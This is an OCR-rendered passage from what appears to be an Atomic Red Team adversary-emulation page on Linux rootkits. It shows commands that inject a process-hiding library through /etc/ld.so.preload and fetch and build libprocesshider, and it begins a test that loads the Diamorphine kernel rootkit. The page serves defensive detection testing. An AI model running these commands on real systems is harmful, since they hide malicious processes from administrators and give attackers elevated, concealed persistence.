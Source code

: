 #### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
echo #{library_path} | tee -a /etc/ld.so.preload
/usr/local/bin/evil_script.py localhost -c 10 >/dev/null & pgrep -l evil_script.py || echo "process hidden"
```

#### Cleanup Commands:

```sh
sed -i "\:^#{library_path}:d" /etc/ld.so.preload
rm -rf #{library_path} /usr/local/bin/evil_script.py /tmp/atomic
```

#### Dependencies: Run with `bash`!

##### Description: The preload library must exist on disk at specified location (#{library_path})

##### Check Prereq Commands:

```bash
if [ -f #{library_path} ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```bash
mkdir -p /tmp/atomic && cd /tmp/atomic
curl -sLO #{repo}/archive/#{rev}.zip && unzip #{rev}.zip && cd libprocesshider-#{rev}
make
cp libprocesshider.so #{library_path}
cp /usr/bin/ping /usr/local/bin/evil_script.py
```

<br/>
<br/>

## Atomic Test #4 - Loadable Kernel Module based Rootkit (Diamorphine)

Loads Diamorphine kernel module, which hides itself and a processes.

**Supported Platforms:** Linux

**auto_generated_guid:** 0b996469-48c6-46e2-8155-a17f8b6c2247

#### Inputs:

| Name         | Description                        | Type   | Default Value                            |
| ------------ | ---------------------------------- | ------ | ---------------------------------------- |
| repo         | Url of the diamorphine github repo | string | https://github.com/m0nad/Diamorphine/    |
| rev          | Revision of the github repo zip    | string | 898810523aa2033f582a4a5903ffe453334044f9 |
| rootkit_name | Module name                        | string | diamorphine                              |
